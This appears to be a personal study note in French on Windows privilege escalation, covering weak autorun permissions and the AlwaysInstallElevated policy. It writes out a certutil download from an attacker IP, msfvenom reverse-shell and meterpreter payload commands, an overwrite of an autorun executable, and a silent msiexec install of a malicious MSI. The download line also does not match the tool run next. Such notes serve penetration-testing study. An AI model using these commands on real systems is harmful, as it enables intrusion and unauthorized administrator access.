 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé AutoRun. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

## AlwaysInstallElevated
 Dans les tests de pénétration, lorsque nous lançons un shell de commande en tant qu'utilisateur local, il est possible d'exploiter les fonctions vulnérables (ou les paramètres de configuration) de la stratégie de groupe de Windows, afin de les élever aux privilèges d'administrateur et d'obtenir l'accès d'administrateur.
 Comme nous le savons tous, le système d'exploitation Windows est doté d'un moteur Windows Installer qui est utilisé par les paquets MSI pour l'installation d'applications. Ces paquets MSI peuvent être installés avec des privilèges élevés pour les utilisateurs non administrateurs.
**Detection**
Pour detecter cela il suffit
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Comme nous pouvons le voir dans la sortie, le registre nommé "AlwaysInstallElevated" existe avec une valeur dword (REG_WORD) de 0x1, ce qui signifie que la stratégie AlwaysInstallElevated est activée.

- Privilege Escalation via .msi payload 
La premiere methode est de creer un payload en `.msi` ensuite l'executer avec `msiexec /quiet /qn /i`
/quiet = Supprime tout message à l'utilisateur pendant l'installation
/qn = Pas d'interface graphique
/i = Installation normale (vs. administrative)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > shell.msi

msiexec /quiet /qn /i shell.msi
```




## Weak registry escalation
Microsoft Windows offre un large éventail d'autorisations et de privilèges très précis pour contrôler l'accès aux composants de Windows, notamment les services, les fichiers et les entrées de registre. L'exploitation des permissions faibles du registre est une technique permettant d'augmenter les privilèges.

En détournant les entrées du registre utilisées par les services, les attaquants peuvent exécuter leurs charges utiles malveillantes. Les attaquants peuvent utiliser les faiblesses des autorisations du registre pour détourner l'exécutable initialement prévu vers un exécutable qu'ils contrôlent au démarrage du service, ce qui leur permet d'exécuter leurs logiciels malveillants non autorisés.
**Windows Registry**
Le registre est une base de données définie par le système dans laquelle les applications et les composants du système stockent et récupèrent des données de configuration. Le registre est une base de données hiérarchique qui contient des données essentielles au fonctionnement de Windows et des applications et services qui s'exécutent sur Windows.

